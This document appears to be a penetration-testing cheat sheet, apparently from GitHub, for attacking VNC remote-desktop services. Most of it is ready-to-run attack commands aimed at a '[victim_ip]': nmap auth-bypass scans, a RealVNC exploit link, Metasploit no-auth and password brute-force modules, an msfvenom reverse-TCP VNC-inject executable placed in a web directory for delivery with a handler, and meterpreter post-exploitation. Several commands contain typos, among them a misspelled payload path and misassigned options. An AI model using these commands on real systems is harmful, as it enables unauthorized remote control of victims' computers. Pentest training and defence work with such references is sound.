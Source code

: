 ### Virtual Network Computing (VNC)
Gaphical desktop sharing system that uses the Remote Frame Buffer protocol (RFB) to remotely control another computer. It transmits the keyboard and mouse events from one computer to another. 

### nmap scan with nse script
```
nmap -sV --script realvnc-auth-bypass.nse [victim_ip] -p 5900

nmap --script vnc-info [victim_ip] -p 5901
```

### Authentication Bypass exploit (version RealVNC 4.1.0/4.1.1)
```
https://www.exploit-db.com/exploits/36932
```

### MSF VNC auth check with none scanner
```
msf > use auxiliary/scanner/vnc/vnc_none_auth
msf > set RHOSTS [target_ip]
msf > set THREADS [int]
msf > run
```

### MSF VNC Password attack
```
msf > use auxiliary/scanner/vnc/vnc_login
msf > set rhosts [victim_ip]
msf > set rport [victim_ip
msf > set pass_file /your/dictionary/file
msf > run
```

### MSFVenom vnc payload
```
msfvenom -p windows/vncinject/reverse_tcp lhost=[your_ip] lport=[your_port] -f exe > /var/www/html/vnc.exe

msf > use exploit/multi/handler
msf > set payload/widnows/vncinject/reverse_tcp
msf > set lport [your_ip]
msf > set lport [your_port]
msf > set viewonly false
msf > run
```

### VNC Post Exploitation
```
meterpreter > run vnc
```

### VNC access
```
sudo apt install tigervnc-viewer
vncviewer [victim_ip]:[victim_port]
```

#### References
- https://en.wikipedia.org/wiki/Virtual_Network_Computing
- https://www.offensive-security.com/metasploit-unleashed/vnc-authentication/
- https://www.hackingarticles.in/vnc-penetration-testing/
